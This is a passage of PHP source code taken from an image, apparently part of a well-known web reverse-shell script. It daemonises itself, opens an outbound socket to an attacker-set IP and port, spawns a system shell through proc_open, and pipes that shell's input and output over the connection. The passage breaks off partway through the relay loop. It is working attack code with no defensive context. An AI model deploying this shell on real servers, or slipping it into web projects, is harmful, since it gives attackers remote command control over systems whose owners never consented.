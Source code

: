 ```php

	// Make the current process a session leader
	// Will only succeed if we forked
	if (posix_setsid() == -1) {
		printit("Error: Can't setsid()");
		exit(1);
	}

	$daemon = 1;
} else {
	printit("WARNING: Failed to daemonise.  This is quite common and not fatal.");
}

// Change to a safe directory
chdir("/");

// Remove any umask we inherited
umask(0);

//
// Do the reverse shell...
//

// Open reverse connection
$sock = fsockopen($ip, $port, $errno, $errstr, 30);
if (!$sock) {
	printit("$errstr ($errno)");
	exit(1);
}

// Spawn shell process
$descriptorspec = array(
   0 => array("pipe", "r"),  // stdin is a pipe that the child will read from
   1 => array("pipe", "w"),  // stdout is a pipe that the child will write to
   2 => array("pipe", "w")   // stderr is a pipe that the child will write to
);

$process = proc_open($shell, $descriptorspec, $pipes);

if (!is_resource($process)) {
	printit("ERROR: Can't spawn shell");
	exit(1);
}

// Set everything to non-blocking
// Reason: Occsionally reads will block, even though stream_select tells us they won't
stream_set_blocking($pipes[0], 0);
stream_set_blocking($pipes[1], 0);
stream_set_blocking($pipes[2], 0);
stream_set_blocking($sock, 0);

printit("Successfully opened reverse shell to $ip:$port");

while (1) {
	// Check for end of TCP connection
	if (feof($sock)) {
		printit("ERROR: Shell connection terminated");
		break;
	}

	// Check for end of STDOUT
	if (feof($pipes[1])) {
		printit("ERROR: Shell process terminated");
```